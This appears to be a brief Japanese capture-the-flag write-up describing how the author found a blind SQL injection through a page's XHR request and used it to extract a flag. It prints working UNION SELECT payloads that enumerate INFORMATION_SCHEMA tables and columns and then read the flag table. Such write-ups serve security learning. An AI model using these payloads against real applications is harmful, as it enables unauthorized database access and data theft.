 ページにアクセスすると、XHRが飛んでた。  
SQLiを疑って、**and 1=1**と**and 1=2**で反応差があった。  
構文を崩してもエラーが出なかったので、sqlite_master(sqlite) -> INFORMATION_SCHEMA(MySQL)の順で調べた。 
下記の２つから、flagテーブルのflagカラムがあることが分かった。  
```
9+union+select+table_name,1,1,1,1+from+INFORMATION_SCHEMA.TABLES
9+union+select+COLUMN_NAME,1,1,1,1+from+INFORMATION_SCHEMA.COLUMNS+WHERE+table_name='flag'
```
あとは、フラグを取ってくるだけ
```
9+union+select+flag,1,1,1,1+from+flag
```
